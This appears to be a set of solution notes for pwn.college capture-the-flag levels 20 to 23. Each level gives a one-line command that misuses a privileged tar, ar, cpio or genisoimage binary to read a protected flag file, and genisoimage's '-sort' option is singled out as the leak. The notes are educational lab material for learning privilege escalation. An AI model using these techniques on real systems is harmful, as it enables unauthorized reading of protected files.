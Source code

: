 # 20 = tar --owner=1000 -cvf /home/hacker/archive.tar flag
## tar -xvf archive.tar
### cat flag

### Very Important NoTe !!! - Notice that the -f needs to go immediately before the archive name but after the --exclude options in this Makefile multi-line example...


# 21 = ar r /home/hacker/flag.a flag; cd /home/hacker; ar xv flag.a ; cat flag

# 22 = ls fl* | cpio -ov --owner=hacker > /home/hacker/Desktop/flag1.cpio; cd /home/hacker/Desktop/;cpio -iv < flag1.cpio ; cat flag

# 23 = genisoimage --help 2>&1 | grep FILE | tr -s ' ' | cut -d " " -f 2 | while read line; do genisoimage $line /flag aa 2>&1;done | grep pwn.college

## you can also $line at the end to see which argument caused priv escalation , and in this case it was -sort 
## genisoimage -sort /flag aa


## https://youtu.be/14mIjpOXnrM?t=775 
## genisoimage --help 2>&1 | grep FILE try using this to get some hints

## genisoimage is dropping privs before it tries to read flag

## Oh yea, so you can’t generate an iso, so look at the man page see which flag takes in a file. One of the early office hours from this year has a similar hint

## Do it smartly use grep to find the different flags that take a file as an argument

# by kanak
## The solution is actually a 0-day (or N-day in the context of this discord)
## If you search discord for some info about genisoimage, you may be able to find some helpful hints
## for genisoimage take a look at the arguments options, one of them will help you